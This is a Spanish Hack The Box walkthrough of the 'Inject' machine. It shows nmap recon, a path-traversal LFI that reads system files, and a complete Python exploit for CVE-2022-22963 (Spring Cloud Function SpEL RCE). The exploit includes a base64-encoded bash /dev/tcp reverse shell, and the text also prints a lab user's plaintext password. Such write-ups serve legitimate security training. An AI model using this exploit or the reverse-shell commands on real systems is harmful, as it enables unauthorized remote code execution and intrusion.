


## Información Básica

### Técnicas vistas

- Web Enumeration
- Local File Inclusion + Directory Listing
- Information Leakage
- Spring Cloud Exploitation (CVE-2022-22963) [Spring4Shell]
- Abusing Cron Job
- Malicious Ansible Playbook (Privilege Escalation)

### Preparación

- eWPT
- OSCP (Escalada)

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.228.213 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```
nmap -sVC -p22,8080 10.129.228.213 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web (8080)



En este puerto podemos ver una web, lo más interesante lo vemos al darle al botón `Upload` donde vemos una subida de archivos:



## LFI

Vemos que podemos subir archivos, y al subirlo nos lleva a `http://10.129.228.213:8080/show_image?img=[IMAGE]`. Podemos intentar aprovecharnos de esto, mediante un **LFI** y un **Path Traversal**, vamos a probar:

```bash
❯ curl "http://10.129.228.213:8080/show_image?img=../../../../../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

Vemos que funciona sin problema, además listamos los usuarios `frank` y `phil`.

## Information Leakage

Haciendo un poco de reconocimiento por el sistema encuentro algo insteresante en `/var/www/WebApp/pom.xml`:

```bash
❯ curl "http://10.129.228.213:8080/show_image?img=../../../../../../../../../var/www/WebApp/pom.xml"
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
  ...
```

Encontramos la versión `2.6.5` de **Spring Framework** encontramos el [CVE-2022-22963](https://github.com/dinosn/CVE-2022-22963) para esta versión que nos permite **RCE**.

# Explotación

Basándome en dicho script, creamos un script propio para ejecutar comandos:

```python
#!/usr/bin/env python3
"""
CVE-2022-22963 - Spring Cloud Function SpEL RCE
Interactive command execution / reverse shell helper
"""

import requests
import sys
import argparse
import base64
import urllib3

urllib3.disable_warnings()

HEADERS_BASE = {
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Accept-Language': 'en',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded',
}

PATH = '/functionRouter'


def send_payload(url: str, spel: str) -> requests.Response:
    headers = {**HEADERS_BASE, 'spring.cloud.function.routing-expression': spel}
    return requests.post(
        url=url + PATH,
        headers=headers,
        data='test',
        verify=False,
        timeout=10,
    )


def exec_cmd(url: str, cmd: str) -> str:
    """
    Execute a command and attempt to read its output via Scanner+InputStream.
    Falls back to showing the raw error if output cannot be parsed.
    """
    safe_cmd = cmd.replace('"', '\\"')
    spel = (
        'new java.util.Scanner('
        'T(java.lang.Runtime).getRuntime().exec('
        f'new String[]{{"/bin/bash","-c","{safe_cmd}"}}'
        ').getInputStream()).useDelimiter("\\\\A").next()'
    )
    try:
        resp = send_payload(url, spel)
        body = resp.text

        # Spring error format: "...resolved to 'OUTPUT' function name..."
        marker_start = "resolved to '"
        marker_end = "' function name"
        if marker_start in body and marker_end in body:
            start = body.index(marker_start) + len(marker_start)
            end = body.index(marker_end, start)
            output = body[start:end]
            return output.replace('\\n', '\n').replace('\\t', '\t').replace('\\r', '').strip()

        return body
    except requests.exceptions.ConnectionError:
        return '[!] Connection refused'
    except requests.exceptions.Timeout:
        return '[!] Request timed out'


def reverse_shell(url: str, lhost: str, lport: int) -> None:
    """Send a bash reverse shell payload."""
    # base64-encode the bash command to avoid quoting issues
    bash_cmd = f'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'
    b64 = base64.b64encode(bash_cmd.encode()).decode()
    cmd = f'echo {b64}|base64 -d|bash'

    safe_cmd = cmd.replace('"', '\\"')
    spel = (
        'T(java.lang.Runtime).getRuntime().exec('
        f'new String[]{{"/bin/bash","-c","{safe_cmd}"}}'
        ')'
    )
    print(f'[*] Sending reverse shell to {lhost}:{lport}')
    print(f'[*] Start listener: nc -lvnp {lport}')
    try:
        send_payload(url, spel)
        print('[+] Payload sent')
    except Exception as e:
        print(f'[-] Error: {e}')


def interactive_shell(url: str) -> None:
    print(f'[+] Target: {url}')
    print('[+] Interactive shell (Ctrl+C to exit)\n')
    while True:
        try:
            cmd = input('$ ').strip()
        except (KeyboardInterrupt, EOFError):
            print('\n[*] Exiting')
            break

        if not cmd:
            continue
        if cmd.lower() in ('exit', 'quit'):
            break

        output = exec_cmd(url, cmd)
        if output:
            print(output)


def get_url(path: str) -> str:
    with open(path) as f:
        for line in f:
            line = line.strip()
            if line:
                return line
    raise ValueError(f'No URL found in {path}')


def main() -> None:
    parser = argparse.ArgumentParser(
        description='CVE-2022-22963 RCE — Spring Cloud Function SpEL injection',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=(
            'Examples:\n'
            '  Interactive shell using url.txt:\n'
            '    python rce.py\n\n'
            '  Specify target directly:\n'
            '    python rce.py -u http://10.129.228.213:8080\n\n'
            '  Single command:\n'
            '    python rce.py -u http://10.129.228.213:8080 -c "id"\n\n'
            '  Reverse shell:\n'
            '    python rce.py -u http://10.129.228.213:8080 -r 10.10.14.5 4444'
        ),
    )
    parser.add_argument('-u', '--url', help='Target URL (default: first entry in url.txt)')
    parser.add_argument('-c', '--cmd', help='Single command to execute')
    parser.add_argument('-r', '--revshell', nargs=2, metavar=('LHOST', 'LPORT'),
                        help='Send reverse shell to LHOST LPORT')
    args = parser.parse_args()

    url = args.url or get_url('url.txt')
    url = url.rstrip('/')

    if args.revshell:
        lhost, lport = args.revshell
        reverse_shell(url, lhost, int(lport))
    elif args.cmd:
        print(exec_cmd(url, args.cmd))
    else:
        interactive_shell(url)


if __name__ == '__main__':
    main()
```

Y lo ejecutamos:

```bash
❯ python3 rce.py -u http://10.129.228.213:8080 -c "id"
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```

Vamos a obtener una reverse shell con el siguiente comando:

```bash
❯ python3 rce.py -u http://10.129.228.213:8080 -c "bash -i >& /dev/tcp/10.10.15.143/8888 0>&1"
```

# Escalada de privilegios

Investigando un poco en el directorio `/home` de `frank`, encontramos las credenciaes de phil:

```bash
frank@inject:~$ ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1  2023 .
drwxr-xr-x 4 root  root  4096 Feb  1  2023 ..
lrwxrwxrwx 1 root  root     9 Jan 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1  2023 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1  2023 .local
drwx------ 2 frank frank 4096 Feb  1  2023 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
frank@inject:~$ cd .m2
frank@inject:~/.m2$ ls
settings.xml
frank@inject:~/.m2$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Probamos las credenciales `phil:DocPhillovestoInject123`.


[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/513)

---